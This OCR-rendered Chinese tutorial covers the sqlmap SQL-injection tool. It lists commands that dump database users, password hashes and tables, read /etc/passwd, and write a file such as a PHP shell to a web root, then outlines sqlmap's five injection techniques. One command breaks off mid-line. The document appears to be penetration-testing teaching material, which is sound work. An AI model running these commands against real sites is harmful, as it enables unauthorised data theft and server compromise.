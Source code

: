 ```
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"
```

## 3. 简单的注入流程

```
1.读取数据库版本，当前用户，当前数据库
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1
2.判断当前数据库用户权限
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1
3.读取所有数据库用户或指定数据库用户的密码
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2
4.获取所有数据库
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2
5.获取指定数据库中的所有表
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2
6.获取指定数据库名中指定表的字段
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2
7.获取指定数据库名中指定表中指定字段的数据
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2
8.file-read读取web文件
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2
9.file-write写入文件到web
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

#### 3.1 注入判断

当给`sqlmap`这么一个`url`的时候，它会：

```
1. 判断可注入的参数
2. 判断可以用那种SQL注入技术来注入
3. 识别出哪种数据库
4. 根据用户选择，读取哪些数据
```

`sqlmap`支持五种不同的注入模式：

```
1. 基于布尔的盲注，即可以根据返回页面判断条件（真\|假）的注入。

2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

4. 联合查询注入，可以使用union的情况下的注入。

5. 堆查询注入，可以同时执行多条语句的执行时的注入。（使用;分隔开多条语句，最为灵活，可以自己构造select（含）外的其他语句）
```
